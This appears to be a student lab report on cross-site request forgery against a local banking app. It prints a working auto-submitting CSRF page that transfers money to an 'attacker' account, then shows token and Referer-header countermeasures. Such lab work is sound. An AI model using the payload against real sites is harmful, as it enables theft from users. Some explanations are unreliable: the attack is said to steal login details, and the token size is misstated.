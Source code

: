 # Task 1: normal transaction with CRSF vulnerability

## 1.1: Login, Check balance

We started off by Login into account and checking the balance of the current account.

## 1.2: Doing the transaction

We will have a look at what a normal transaction will do.



This leave us with a big vunerability that if the attacker have the ability to send a fake transaction request to the bank, we will be at risk of being hacked and drain out of money.

## 1.3: Tranfer money illegitimately

Here's what happend if the attacker give us a random link that also steal the login information of the current user and send a fake transaction request to the web server:


Here's what inside the malicious link that the attacker sent:

```

<!DOCTYPE html>
<html>
<body>
<h1>Win a Prize!</h1>
<form id="csrf-form" action="http://localhost:5000/transfer" method="POST" style="display:none;">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="50">
</form>

<script>
    window.onload = function() {
        document.getElementById("csrf-form").submit();
    }
</script>
</body>
</html>

```

This will collect the current login value of the victim and sent a POST request to the web-server to fake a transaction to the attacker balance.

There're ways to counter this attack. Here're some of those:

# Task 2: CSRF Countermeasure implementation

## 2.1: Solution 1: Create a CSRF token generator

This is the simplest method to prevent csrf attack. This method include creating a completely random key called csrf token when a user logged in and use the website. After each POST request, the web server will check if the token inclued in the request is the correct one saved in the cookie. This method is useful in preventing basic csrf attack but still vulnerable when the cookie is stolen. Here's how to implement it:

In the python code base, we create a function to generate random token when the user is logged in:

``` 

def generate_csrf_token(): 
        return secrets.token_hex(16)

```

This will randomly create a 8 bytes token that is completely unknow to the attacker. Since all the value generated will be randomized per client session, this make the attack very difficult to do since we create an unknow element to the login function.

And when the login is successful, we also add to the cookie the generated token with the following line in the initial login funtion:
```

 resp.set_cookie('csrf_token', generate_csrf_token()) 

```
This will, after the user logged in, create a random token and save it into the cookie for future use and validation. Since only the user know what is the generated value, attacker simply cannot use normal csrf method on the website except by directly getting the cookie from the client themself.

After that, we also have to make the change to login to include such csrf token invalid detection, using the following:

```

 def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        submitted_csrf_token = request.form['csrf_token']
        
        # Verify CSRF token
        if submitted_csrf_token != session.get('csrf_token'):
            return "Invalid CSRF token", 403  # Forbidden

```

The previous code is just the authentication for login with extra code for csrf token validation when the web-server is getting a POST request. This will ensure that the csrf token saved in the cookie is correct.

## 2.2: Solution 2: using the referred header method 

This is also a very simple way to prevent basic csrf attack, this involed using a referred website domain as a POST request location, any different POST request header from malicious attacker website will not be resolved in the web server. This is also not a fool-proof method since the header itself is vulnerable to attacker. Here's how to implement it in python:

First, we need to check if the POST request contain the request source folder, any POSt request without it will not the resolved:

```

if 'Referer' not in request.headers:
        return "Invalid request (missing Referer header)", 400

```

This will detect if the request header is hidden from the web-server or the attacker use ways to avoid including the header in the request

Then from the request header, we extract the domain and check if that domain match the referred domain of our web server:

```

 referer_domain = request.headers['Referer'].split('/')[2]

    # Check if the domain matches your expected domain
    if referer_domain != 'mysite.com':
        return "Invalid request (Referer does not match)", 400

```

This will extract and check if the header given is the same as the saved domain. Any normal request from clients will always come from the referred domain, and this will prevent csrf attack from happening because the attacker come from different domain.
